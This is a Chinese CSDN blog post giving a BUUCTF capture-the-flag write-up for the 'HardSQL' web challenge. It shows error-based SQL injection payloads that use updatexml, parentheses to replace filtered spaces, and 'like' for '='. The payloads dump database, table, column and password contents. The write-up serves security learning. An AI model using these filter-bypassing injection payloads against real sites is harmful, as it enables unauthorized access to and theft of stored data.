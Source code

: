

# BUUCTF__web题解合集（一）_风过江南乱的博客-CSDN博客_buuctf web

> 来源：[https://blog.csdn.net/TM_1024/article/details/107482984](https://blog.csdn.net/TM_1024/article/details/107482984)

## 前言

*   之前的速度太慢了，所以以后尽量一次多写几道题，少说废话。
*   至少得过一遍知道相关知识点。

## 题目

### 一、[极客大挑战 2019]HardSQL

*   随便输入发现有报错回显，并且是单引号闭合。再跑字典发现像空格、> 、= 、union、if 常见的字符或单词都被过滤。

*   首先会想用`/**/`绕过空格过滤，失败。用大小写、双写绕过单词过滤，也失败。 所以联合注入、盲注都不可行。

*   有报错回显，且`extractvalue` 和 `updatexml`均未被过滤，尝试报错注入。

*   再因为空格被过滤，想到用`()`分割语句到达到代替空格的效果。`=`被过滤，可以用`like`替代。

*   所以构造payload。

*   爆库，得到数据库名称 `geek`

    ```
    check.php?username=1'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23&password=2 
    ```

*   爆表，得到表名 `H4rDsq1`

    ```
    check.php?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),0x7e),1))%23&password=2 
    ```

*   爆字段，得到字段 `id,username,password`

    ```
    check.php?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e),1))%23&password=2 
    ```

*   爆内容，但因为 updatexml限制32位字符，而且flag长度大于32，所以用left和right函数拼接。

*   语法：left(arg,length)、right(arg,length) 。分别返回 arg 最左边、右边的 length 个字符。

    ```
    前半部分 check.php?username=1'or(updatexml(1,concat(0x7e,(select((left(password,30)))from(H4rDsq1)),0x7e),1))%23&password=2

    后半部分 check.php?username=1'or(updatexml(1,concat(0x7e,(select((right(password,30)))from(H4rDsq1)),0x7e),1))%23&password=2 
    ```
